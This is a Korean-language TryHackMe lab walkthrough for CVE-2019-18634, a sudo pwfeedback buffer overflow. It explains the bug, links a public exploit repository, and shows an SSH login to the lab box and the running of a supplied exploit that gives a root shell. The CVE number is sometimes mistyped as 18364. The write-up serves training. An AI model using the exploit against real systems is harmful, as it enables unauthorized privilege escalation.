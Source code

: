```yaml
---
tags:
  - TryHackMe
  - CVE-2019-18634
---
```


# Walk Through

이 Machine은 `CVE-2019-18364`에 대해 실습할 수 있는 환경을 제공한다.

## CVE-2019-18364 이란 ?

> CVE-2019-18634 is, at the time of writing, the latest offering from Joe Vennix - the same guy who brought us the security bypass vulnerability that we used in the Security Bypass room. 
> 
> This one is slightly more technical, using a Buffer Overflow attack to get root permissions. It has been patched, but affects versions of sudo earlier than 1.8.26.

위는  해당 Machine의 Task2 단락에서 제시되는 "CVE-2019-18364"에 대한 설명이다. 요약하자면 `sudo`  명령어를 사용하는 경우 버전이 1.8.26 보다 낮을 경우 발생하는 취약점이다. 

이와 연관된 [데일리시큐](https://www.dailysecu.com/news/articleView.html?idxno=106430) 의 기사도 찾을 수 있었다. 데일리 시큐에서는 이 취약점이 Trigger되는 시점을 다음과 같이 설명하고 있다.
>Sudoers 구성 파일에서 pwfeedback 옵션이 활성화된 경우에만 취약점을 익스플로잇할 수 있다. Sudo의 pwfeedback 옵션을 사용하면, 사용자가 비밀번호를 입력할 때 시각적 피드백을 제공할 수 있다.
>
  NIST가 게시한 설명에 따르면 "1.8.26 이전 sudo에서 /etc/sudoeros에서 pwfeedback을 활성화시키면, 사용자는 권한있는 sudo 프로세스에서 스택 기반 버퍼 오버플로우를 트리거할 수 있다 
  > 
  Pwfeedback은 리눅스 Mint와 기본 OS의 기본 설정이지만, 업스트림 및 기타 여러 패키지의 기본 값은 아니며, 여러 관리자가 활성화한 경우에만 존재한다.
  
데일리 시큐에서 인용한 기사를 보면 Pwfeedback이 정확히 어떤 일을 하는지 이해가 되지 않는다. 그러나 이에 대해 TryHackMe에서 다음과 같이 설명된 부분을 찾을 수 있다.
  > If you have used Linux before then you might have noticed that passwords typed into the terminal usually don't show any output at all; `pwfeedback` makes it so that whenever you type a character, an asterisk is displayed on the screen
  > 
  > 이전에 Linux를 사용해 본 적이 있다면 터미널에 입력한 비밀번호가 전혀 출력되지 않는 것을 보셨을 텐데요, pwfeedback을 사용하면 문자를 입력할 때마다 별표가 화면에 표시되도록 할 수 있습니다.

정리해보자면 "CVE-2019-18364"는 pwfeedback을 이용한 buffer overflow 인 셈이다. 

## 예제 소스
buffer overflow는 perl이나 python을 이용해 프로그램 Argument에 대한 큰 입력을 가해야한다 그러나 이 과정은 스택 오버플로우가 터지는 시점을 잡기위한 과정에서 시간을 다소 소모한다.

이 Machine은 미리 "CVE-2019-18364"를 실습할 수 있게 expolit.c 파일을 제공한다.
- https://github.com/saleemrashid/sudo-cve-2019-18634


## SSH 접속하기
이제 실제로 Machine을 deploy 시켜 "CVE-2019-18364"에 대한 실습을 진행해보자. Machine의 설명에도 언급되어있지만 ssh로 접속하자.
```shell
╰─$ ssh -p 4444 tryhackme@10.10.198.136                                          
tryhackme@10.10.198.136's password:

```
password는 'tryhackme'이다. 

## Exploit
Machine에 접속하면 "exploit"이란 파일이 존재한다. 
```
tryhackme@sudo-bof:~$ ls
exploit  exploit.1
```
 이를 실행시키면 root 권한을 얻는다.
```shell
tryhackme@sudo-bof:~$ ./exploit
[sudo] password for tryhackme:
Sorry, try again.
# whoami
root
```
flag는 /root/root.txt 에서 읽을 수 있다.

 
 

  
  
  
  
 
 
 
 
  
